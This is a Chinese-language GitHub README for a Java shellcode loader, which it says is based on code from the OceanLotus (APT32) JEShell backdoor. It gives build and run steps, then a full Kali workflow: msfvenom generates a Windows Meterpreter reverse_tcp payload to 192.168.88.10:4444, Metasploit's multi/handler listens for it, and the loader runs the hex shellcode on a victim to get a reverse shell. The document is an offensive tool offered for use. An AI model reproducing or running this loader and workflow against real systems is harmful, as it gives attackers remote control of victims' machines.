## Java ShellCode Loader

基于Java实现的ShellCode加载器，兼容32位及64位平台。

核心代码来源于：[JEShell: An OceanLotus (APT32) Backdoor](https://norfolkinfosec.com/jeshell-an-oceanlotus-apt32-backdoor/)

运行环境：Jre >= 1.5

## 编译

```
mvn package -DskipTests
```

## 使用

```
java -jar ShellcodeLoader.jar shellcode_hex
```

## 举例

### kali

生成hex格式的ShellCode

```
┌──(root💀kali)-[~]
└─# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.88.10 LPORT=4444 -f hex
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of hex file: 708 bytes
fce88f0000006089e531d2648b5xxxx
```

然后开启监听

```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.88.10
set LPORT 4444
exploit -j
```

### 客户端

```
java -jar ShellcodeLoader.jar fce88f0000006089e531d2648b5xxxx
```

即可收到反弹的Meterpreter